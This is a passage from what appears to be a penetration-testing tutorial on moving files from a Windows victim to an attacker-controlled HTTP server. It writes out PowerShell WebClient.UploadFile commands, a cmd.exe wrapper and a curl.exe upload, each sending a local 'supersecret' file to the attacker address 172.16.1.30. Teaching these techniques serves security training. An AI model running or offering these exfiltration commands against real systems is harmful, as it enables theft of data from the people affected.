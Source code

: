With SimpleHTTPServerWithUpload.py you still get the regular directory listing to download files with the added bonus of a GUI upload feature that can be used to easily exfiltrate files back to our attacker machine.

On the victim:

![](https://juggernaut-sec.com/wp-content/uploads/2022/04/image-149.png)

![](https://juggernaut-sec.com/wp-content/uploads/2022/04/image-150.png)

![](https://juggernaut-sec.com/wp-content/uploads/2022/04/image-151.png)

On the attacker:

![](https://juggernaut-sec.com/wp-content/uploads/2022/04/image-152.png)

## **Uploading Files to Attacker’s HTTP Server: PowerShell**

From a PowerShell prompt, we can execute the following command to upload a folder to the Python HTTP server:

```
(New-Object System.Net.WebClient).UploadFile('http://172.16.1.30/', 'C:\temp\supersecret.txt')
```

And then back on our attacker, we can check the log to see if the file was uploaded successfully, which we can see it was.

![](https://juggernaut-sec.com/wp-content/uploads/2022/04/image-153.png)

For the Apache server, you would need to tweak the command just a bit to push the file specifically to upload.php, like so:

```
(New-Object System.Net.WebClient).UploadFile('http://172.16.1.30/upload.php', 'C:\temp\supersecret.txt')
```

## **Uploading Files to Attacker’s HTTP Server: cmd.exe**

Just like we saw earlier, by adding **powershell -c** in front of the PowerShell command above and then surrounding it in double quotes, we can execute it from a cmd.exe prompt:

```
powershell.exe -c "(New-Object System.Net.WebClient).UploadFile('http://172.16.1.30/upload.php', 'C:\temp\supersecret.txt')"
```

Another way we can use cmd.exe to upload files is by using curl.exe. With cURL we can upload a file to the Python HTTP server with the following command:

```
curl.exe -F 'file=@C:\\temp\\supersecret.txt' http://172.16.1.30
```
